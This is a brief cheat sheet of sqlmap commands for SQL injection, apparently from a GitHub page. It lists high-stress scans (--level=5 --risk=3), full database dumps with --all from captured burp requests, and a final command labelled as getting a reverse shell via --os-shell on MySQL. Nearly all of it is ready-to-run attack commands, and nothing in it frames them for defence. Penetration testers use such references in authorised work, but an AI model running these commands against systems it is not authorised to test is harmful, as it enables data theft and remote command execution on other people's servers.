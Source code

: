 # sqlmap level and risk options
--level 5 --risk 3

# sqlmap search string response on site for successful injection
--string "successful injection text here"

# sqlmap Test All (Default Settings)
```bash
sqlmap -u "http://192.168.0.1/database/inject.php?q=user" --batch
```

# sqlmap Test All (Default Settings, High Stress)
```bash
sqlmap -u "http://192.168.0.1/database/inject.php?q=user" --batch --level=5 --risk=3
```

# sqlmap with burp request Test All (Default Settings)
```bash
sqlmap --all -r post_request.txt --batch 
```

# sqlmap with burp request Test All (Default Settings, High Stress)
```bash
sqlmap --all -r post_request.txt --batch --level=5 --risk=3
```

# sqlmap with burp request Get A Reverse Shell (MySQL)
```bash
sqlmap -r post_request.txt --dbms "mysql" --os-shell
```
